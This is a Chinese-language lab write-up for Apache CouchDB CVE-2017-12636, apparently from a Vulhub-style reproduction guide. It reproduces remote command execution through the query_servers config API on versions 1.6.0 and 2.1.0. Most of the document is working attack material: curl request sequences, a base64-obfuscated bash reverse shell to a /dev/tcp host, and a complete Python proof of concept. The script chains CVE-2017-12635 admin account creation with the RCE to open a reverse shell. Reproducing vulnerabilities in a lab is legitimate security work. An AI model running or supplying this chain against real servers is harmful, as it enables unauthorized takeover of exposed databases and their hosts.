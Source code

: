 # Couchdb 任意命令执行漏洞 CVE-2017-12636

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动CVE-2017-12635附带的环境。

Vulhub执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

![image-20220222104917650](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221049822.png)

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

查看`/tmp/success`文件内容：

![image-20220222104941298](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221049362.png)

### 2.1.0 下的说明

2.1.0中修改了上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![image-20220222101400236](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221014285.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![image-20220222101444275](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221014315.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

![image-20220222101810195](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221018281.png)

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令，`/tmp/success`文件夹被成功创建。

![image-20220222102002703](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221020820.png)

### 1.6.0下反弹shell

curl 调用字符串需要用 `'`或`"`；json 需要 `"`，bash -c 的字符串需要 `'`或`"`，因此可以将反弹 shell 的语句写在文本shell.txt里面，然后通过 curl 调用shell.txt。

```
$ vim shell.txt
文件内容："bash -c '{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzQuMTI4Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'"
```

依次执行如下请求即可触发反弹shell：

```
# 第一步：-d参数读取本地文本文件的数据，向服务器发送
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/_config/query_servers/cmd' -d '@shell.txt'

# 第二步：添加Database
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest'

# 第三步：添加Document
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

# 进行查询，将language设置为cmd，这里就会用到第一步里添加的名为cmd的query_servers，最后触发命令执行
curl -X POST 'http://vulhub:vulhub@192.168.174.128:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

## 漏洞POC

1.6.0或2.1.0下反弹shell的poc

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.174.128:5984'
command = rb"""sh -i >& /dev/tcp/192.168.174.128/9999 0>&1"""

# Change Version Here
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

成功反弹shell

![image-20220222104008354](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221040431.png)

